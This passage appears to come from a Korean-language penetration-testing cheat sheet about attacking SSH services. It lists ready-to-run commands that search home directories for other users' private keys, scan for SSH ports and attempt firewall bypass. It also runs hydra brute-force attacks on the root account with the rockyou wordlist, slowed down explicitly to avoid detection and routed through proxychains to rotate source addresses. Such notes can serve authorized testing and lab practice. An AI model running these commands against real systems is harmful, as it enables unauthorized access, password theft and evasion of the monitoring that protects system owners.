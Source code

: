 ```bash
cat ~/.ssh/id_rsa.pub
cat ~/.ssh/authorized_keys

# 다른 사용자의 SSH 키 확인
find /home -name ".ssh" -type d 2>/dev/null
find /home -name "id_rsa" 2>/dev/null
find /home -name "authorized_keys" 2>/dev/null
```

---

## 🚨 문제 해결

### 🚫 연결 거부시

```bash
# 다른 SSH 포트 확인
nmap -p 22,222,2222,22222 {IP}

# 특정 포트로 SSH 연결
ssh -p 2222 user@{IP}

# SSH 서비스 상태 확인
nmap -sV -p 22 {IP}
nc -zv {IP} 22

# 방화벽 우회 시도
ssh -o ConnectTimeout=10 user@{IP}
```

### 🔐 인증 실패가 계속될 때

```bash
# 다른 인증 방법 시도
ssh -o PreferredAuthentications=password user@{IP}
ssh -o PreferredAuthentications=publickey user@{IP}
ssh -o PreferredAuthentications=keyboard-interactive user@{IP}

# verbose 모드로 연결 문제 진단
ssh -v user@{IP}
ssh -vv user@{IP}
ssh -vvv user@{IP}

# 다른 클라이언트 시도
telnet {IP} 22
nc -nv {IP} 22
```

### ⏰ 브루트포스 속도 조절

```bash
# 느린 브루트포스 (탐지 회피)
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://{IP} -t 1 -W 5

# 연결 제한 회피
hydra -l root -P passwords.txt ssh://{IP} -f -V -t 4 -w 30

# IP 변경하며 브루트포스 (프록시 체인)
proxychains hydra -l root -P passwords.txt ssh://{IP}
```
